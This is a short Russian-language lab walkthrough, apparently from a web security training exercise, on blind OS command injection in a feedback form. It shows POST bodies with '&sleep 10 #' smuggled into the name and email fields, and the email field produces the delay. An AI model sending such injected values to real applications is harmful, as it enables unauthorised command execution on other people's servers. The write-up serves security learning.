

# Лабораторная работа: Слепая инъекция команд ОС с задержками по времени.

В данной лабораторной работе обнаружена уязвимость, позволяющая осуществлять слепое внедрение команд операционной системы в функцию обратной связи.

Приложение выполняет команду оболочки, содержащую предоставленные пользователем данные. Вывод команды в ответе не возвращается.

Для решения лабораторной работы необходимо использовать уязвимость слепого внедрения команд операционной системы, чтобы вызвать задержку в 10 секунд.

---

**Ход работы:**

Начинаем анализировать:

Видим в POST-запросе передачу данных:

`csrf=g8XQjkm0UBT82yPePlQYQ5fARr6ir6oZ&name=Mcgregor&email=mcgregor%40tresh.com&subject=NO&message=floyd+mayweather`

Пытаюсь найти уязвимость для начала в имени: 

`csrf=g8XQjkm0UBT82yPePlQYQ5fARr6ir6oZ&name=Mcgregor &sleep 10 #&email=mcgregor%40tresh.com&subject=NO&message=floyd+mayweather`

Задержки не происходит. Идем дальше к почте:

`csrf=g8XQjkm0UBT82yPePlQYQ5fARr6ir6oZ&name=Mcgregor&email=mcgregor%40tresh.com &sleep 10 #&subject=NO&message=floyd+mayweather`

Успех!
